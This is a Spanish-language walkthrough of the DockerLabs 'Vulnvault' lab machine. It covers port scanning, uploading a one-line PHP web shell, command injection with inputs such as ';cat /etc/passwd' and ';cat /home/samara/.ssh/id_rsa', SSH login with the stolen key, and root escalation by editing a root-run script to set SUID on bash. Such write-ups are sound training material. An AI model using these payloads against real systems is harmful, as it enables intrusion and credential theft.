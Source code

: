 # Máquina Vulnvault

Enlace a la máquina -> [Dockerlabs](https://mega.nz/file/1asGQbRK#zvWJuwPfUI0P43b2YDBesILqJogA3tv3SVQn4oORmSI)

![imagen](https://github.com/user-attachments/assets/b937f6b2-9b8a-42a4-a96d-c0f091d31d9d)

- **Nombre de la Máquina:** Vulnvault
- **Sistema Operativo:** Linux
- **Dificultad:** Fácil
- **Plataforma:** DockerLabs
- **Dirección IP:** 172.17.0.2
- **Vulnerabilidades Explotadas:**
  - Inyección de Comandos en la aplicación web para ejecutar comandos y obtener archivos sensibles como /etc/passwd y id_rsa.
- **Escalada de Privilegios:**
  - Modificación de Script Root, aprovechando permisos de escritura para añadir SUID a /bin/bash.

## Reconocimiento y Enumeración
Iniciamos un escaneo general utilizando Nmap para identificar los puertos abiertos en la IP del objetivo.

```bash
sudo nmap -p- -sS --min-rate 5000 -v -n -Pn 172.17.0.2 -oN escaneo.txt
```

![imagen](https://github.com/user-attachments/assets/9f4569f9-2dbd-4c20-a697-512a28d6df7b)

El escaneo muestra que los puertos 22 y 80 están abiertos. Realizamos un análisis más detallado para determinar qué servicios se están ejecutando en estos puertos.

```bash
sudo nmap -p 22,80 -sCV 172.17.0.2 -oN targeted.txt
```

![imagen](https://github.com/user-attachments/assets/4b799070-2115-4d9c-916d-bf744824459f)

### Puerto 80 HTTP
Lanzamos un `whatweb` para ver qué servicios corren en el puerto HTTP.

![imagen](https://github.com/user-attachments/assets/38d529ad-4c2e-40b7-9bff-57dd3090b300)

Al ingresar la dirección ip en el navegador, observamos la siguiente web.

![imagen](https://github.com/user-attachments/assets/e8b57ab6-7546-4af1-9536-98527df68d2c)

Vemos un botón que nos lleva a un directorio donde podemos subir archivos.

![imagen](https://github.com/user-attachments/assets/ab654f53-ed51-425b-aad3-9993ffcec5f6)

Hice un script en php para crear un parámetro con el que pueda ejecutar comandos y lo subí.

```php
<?php
  system($_GET["cmd"]);
?>
```

![imagen](https://github.com/user-attachments/assets/0a45e50b-783f-448b-a52f-08bd4485bbd0)

Salta una alerta diciendo que se subió correctamente pero no me muestra el directorio de donde se subió.

Revisando la web me doy cuenta que en los reportes sale una pista que dice lo siguiente:

```pista
Este sistema también está diseñado para demostrar la importancia de la seguridad en la generación de comandos. La entrada de datos debe ser manejada con cuidado para evitar la inyección de comandos maliciosos.
```

Probé ingresar varios comandos y descubrí que al utilizar ;ls, el comando se ejecutaba correctamente, mostrando el resultado en un archivo .txt visible desde la web.

![imagen](https://github.com/user-attachments/assets/45d2dff4-0339-48e6-addf-7a8d0ec5fdc7)

Al tener ejecución de comandos voy a leer el `/etc/passwd` con ingresando el siguiente comando en el input `;cat /etc/passwd`.

![imagen](https://github.com/user-attachments/assets/1b24cab2-ff41-443c-9ac8-cec9d16eac27)

Vemos que solo existe un usuario llamado **samara**, intenté hacer fuerza bruta por ssh pero no logré la contraseña así que seguí investigando y ví que tiene una carpeta `.ssh` en su directorio personal.

![imagen](https://github.com/user-attachments/assets/ad83f05c-36bb-44d9-b16c-b0e98e51bef9)

![imagen](https://github.com/user-attachments/assets/506e7f96-ef1d-4a53-81ab-85b59343683b)

Observamos que tiene dentro el archivo `id_rsa` así que lo veremos con ingresando el comando `;cat /home/samara/.ssh/id_rsa`.

![imagen](https://github.com/user-attachments/assets/67bfdccf-f6f4-46ac-81a2-53c6f68fd609)

Lo copiamos y lo pegamos en nuestra máquina atacante para ingresar vía ssh, cambiaremos los permisos del archivo id_rsa con el comando `chmod 700 id_rsa`.

```bash
ssh samara@172.17.0.2 -i id_rsa
```

![imagen](https://github.com/user-attachments/assets/dbba1f18-000a-4f8d-8c18-b45058fe0c2e)

## Escalada de privilegios a root
Vemos un par de archivosc .txt pero no contienen nada relevante.

![imagen](https://github.com/user-attachments/assets/584bcfe2-abb3-4c91-a78e-b6f50798abe6)

Miro a ver is tiene permisos sudo o SUID y tampoco vemos nada.

![imagen](https://github.com/user-attachments/assets/bf7fe0c9-0f72-4b44-86b3-74695406f2ad)

Seguí investigando hasta que decidí ver los procesos que se ejecutaban con el programa [pspy](https://github.com/DominicBreuker/pspy/releases). Transferí la herramienta pspy a la máquina víctima utilizando el siguiente comando:

```bash
python3 -m http.server 80
```

![imagen](https://github.com/user-attachments/assets/c9ade767-255a-4871-a9d9-bb716ae221d9)

```bash
wget http://172.17.0.1/pspy64
```

![imagen](https://github.com/user-attachments/assets/a97a85bb-7ee4-4a9e-816c-b7cfd058b48f)

Le damos permisos de ejecución y lo ejecutamos.

```bash
chmod +x pspy64
./pspy64
```

![imagen](https://github.com/user-attachments/assets/0b5ea009-b79f-4f5a-94ab-5270ea929afe)

Observamos que se está ejecutando constantemente el archivo `echo.sh` dentro de la ruta `/usr/local/bin/echo.sh`. Si hacemos un cat del archivo vemos lo siguiente:

```bash
#!/bin/bash

echo "No tienes permitido estar aqui :(." > /home/samara/message.txt
```

Vemos que tnemos permisos de escritura así que modificaremos el script para que otorgue permisos SUID a la bash ya que el script lo ejecuta root automáticamente.

![imagen](https://github.com/user-attachments/assets/efa6f003-58b0-45ea-8676-e46de89261da)

```bash
nano /usr/local/bin/echo.sh
#!/bin/bash
chmod u+s /usr/bin/bash
```

![imagen](https://github.com/user-attachments/assets/7c17101f-f301-4d35-ba5c-60fd9ed9e876)

Una vez cambiado los permisos SUID, ejecutando el comando `bash -p` obtendremos una bash privilegiada con permisos root.

![imagen](https://github.com/user-attachments/assets/e182d3d3-c98a-49de-b9b7-ad6139a17459)
